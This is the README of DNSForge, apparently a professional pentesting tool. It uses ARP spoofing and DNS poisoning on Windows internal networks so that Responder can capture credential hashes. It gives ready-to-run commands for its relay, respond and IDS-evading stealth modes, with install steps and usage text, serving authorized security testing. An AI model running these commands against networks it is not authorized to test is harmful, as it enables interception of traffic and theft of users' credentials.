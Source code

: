 # DNSForge
DNSForge is a network pentesting tool for responding to name resolution requests made to the authoritative DNS server in an internal network landscape, achieving interception and reuse of system credentials without user interaction. This tool is intended to be used alongside [Responder](https://github.com/lgandx/Responder). The original blog post for DNSForge can be found [here](https://aon.com/cyberlabs/dnsforge)

## Attack Customization
One of 2 attack modes must be specified when using DNSForge:

### Relay (Preferred)
In this mode, the tool expects the spoofing target (specified with `-t` or `-tf`) to be set to the victim client(s) (ex. employee/user workstation/laptop). This will cause the interception of packets on their way in from the authoritative nameserver to the victim clients and DNSForge will relay the server's DNS response while forging/poisoning the attacker's IP (specified with `-p`).
```bash
sudo dnsforge relay -i <interface> -p <attacker IP> -t <victim client> -q wpad
```

### Respond
In this mode, the tool expects the spoofing target (specified with `-t` or `-tf`) to be set to the authoritative nameserver (ex. DNS server/Domain Controller). This will cause interception of packets on their way out from the victim clients to the server and DNSForge will adequately respond to the client's DNS request while forging/poisoning the attacker's IP (specified with `-p`).
```bash
sudo dnsforge respond -i <interface> -p <attacker IP> -t <DNS server/domain controller> -q wpad
```

### Stealth (optional)
This option (`-s`) can be applied to both Relay and Respond attack modes. When applied, this option requests the SOA record from the authoritative DNS server and appends it to forged DNS responses for added stealth on networks with IDS/IPS devices. With this mode enabled, the tool produces DNS response messages that exactly match those generated from the authoritative DNS server.
```bash
sudo dnsforge relay -i <interface> -p <attacker IP> -t <victim client> -q wpad -s -ds <DNS server IP> -d <domain name>
```

## Installation
The tool can be installed using [pipx](https://github.com/pypa/pipx)
```bash
pipx install git+https://github.com/AonCyberLabs/DNSForge
```

Alternatively, the tool can be installed using [Poetry](https://python-poetry.org/) after cloning the repo.
```bash
poetry install
poetry shell
```

## Attack Scenario
This tool lends itself in the context of an internal network that consists of Windows workstations and servers. DNSForge utilizes ARP spoofing to redirect DNS requests intended for the DNS server to the attacker's host (when running in respond mode). Upon receiving DNS requests, DNSForge poisons the response with the attacker's IP address and, if in stealth mode configuration, forges the DNS server's SOA record. This induces victims to accept DNS responses from a seemingly legitimate source and performs an adversary-in-the-middle attack. Subsequently, Responder can be run to serve a malicious PAC file and capture hashes.

### Example
Sample scenario of poisoning DNS requests for WPAD issued by victim host:
1. Setup DNS Forge to poison incoming requests:
```sudo dnsforge relay -i <interface> -p <attacker IP> -t <victim client> -q wpad```
2. Finally, run Responder to serve malicious WPAD file and capture hashes:
```sudo responder -I <interface> -P```

## ARP Spoofing
The tool can be supplied either a target IP with `-t`, a file with target IPs with `-tf` or the `--no-arp-spoof` flag that turns off ARP spoofing and lets the user decide the method of redirecting DNS packets to the attacker's host. At least one of these options must be supplied.

### Spoofing Gateway (Respond mode)
In scenarios where the authoritative nameserver does not reside on the same subnet as the attacking host, DNSForge can be configured to perform ARP spoofing against the subnet gateway (either by explicitly supplying the gateway IP as a spoofing target or automatically when a target IP outside the selected interface's subnet is supplied). Since this action can perform denial-of-service against victim clients on the same subnet, DNSForge performs additional checks to verify if IP forwarding is enabled on the attacking host. IP forwarding will ensure that the attacking host acts as the gateway itself and mantains network reliability by forwarding incoming packets to the subnet's gateway IP.

The following command enables IP forwarding on Linux systems: `sudo sysctl -w net.ipv4.ip_forward=1`

Additionally, along with IP forwarding, the following iptables rule is recommended to ensure that only non-DNS traffic is forwarded: `sudo iptables -A FORWARD -i <Interface> -p udp --dport 53 -j DROP`

Alternatively, if the authoritative nameserver resides on a different subnet, consider utilizing the `relay` mode which intercepts DNS responses on their way from the legitimate server to the victim client.

## Usage
```
 ______   ____  _____   ______   ________
|_   _ `.|_   \|_   _|.' ____ \ |_   __  |
  | | `. \ |   \ | |  | (___ \_|  | |_ \_|.--.   _ .--.  .--./) .---.
  | |  | | | |\ \| |   _.____`.   |  _| / .'`\ \[ `/'`\]/ /'`\;/ /__\\
 _| |_.' /_| |_\   |_ | \____) | _| |_  | \__. | | |    \ \._//| \__.,
|______.'|_____|\____| \______.'|_____|  '.__.' [___]   .',__`  '.__.'
                                                       ( ( __))
Author : Apurva Goenka
Version : 1.0.0

usage: dnsforge [-h] -i INTERFACE -p POISON_IP [-ttl TIME_TO_LIVE] [-q QUERY_NAME] [-s] [-v]
                [-ds DNS_SERVER] [-d DOMAIN] (-t TARGET | -tf TARGET_FILE | --no-arp-spoof)
                {respond,relay}

DNS Response Forger

positional arguments:
  {respond,relay}       Respond mode: DNS request packets are intercepted on their way from the
                        client to the server. Relay mode: DNS response packets are intercepted on
                        their way from the server to the client.

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to sniff/poison on
  -p POISON_IP, --poison-ip POISON_IP
                        IP address to forge/poison DNS response
  -ttl TIME_TO_LIVE, --time-to-live TIME_TO_LIVE
                        TTL (seconds) for poisoned DNS response
  -q QUERY_NAME, --query-name QUERY_NAME
                        DNS Query Name to Poison (can specify multiple by separating with ',')
  -s, --stealth         Stealth Mode
  -v, --verbose         Verbose Output

Stealth Mode:
  -ds DNS_SERVER, --dns-server DNS_SERVER
                        IP address of Authoritative DNS Server
  -d DOMAIN, --domain DOMAIN
                        The domain name of the victim domain

ARP Spoofing:
  -t TARGET, --target TARGET
                        ARP spoofing target IP
  -tf TARGET_FILE, --target-file TARGET_FILE
                        ARP spoofing target IP list
  --no-arp-spoof        Turn off ARP spoofing
```

### Copyright
Copyright 2024 Aon plc